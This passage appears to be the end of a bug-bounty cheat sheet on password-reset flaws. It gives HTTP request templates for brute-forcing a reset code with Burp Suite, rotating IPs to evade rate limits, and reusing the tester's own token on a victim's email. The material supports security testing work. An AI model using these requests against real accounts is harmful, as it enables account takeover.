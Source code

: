 ## [9] Brute Force Password Rest token
Try to bruteforce the reset token using Burpsuite

```bash
POST /resetPassword
[...]
email=victim@email.com&code=$BRUTE$
```
* Use IP-Rotator on burpsuite to bypass IP based ratelimit.

### Reference
* https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

## [10] Try Using Your Token

* Try adding your password reset token with victim's Account

```bash
POST /resetPassword
[...]
email=victim@email.com&code=$YOUR_TOKEN$
```
### Reference
* https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

## Conclusion
Next time when you see a password reset function, check for all these flaws.<br>
Happy Hunting!
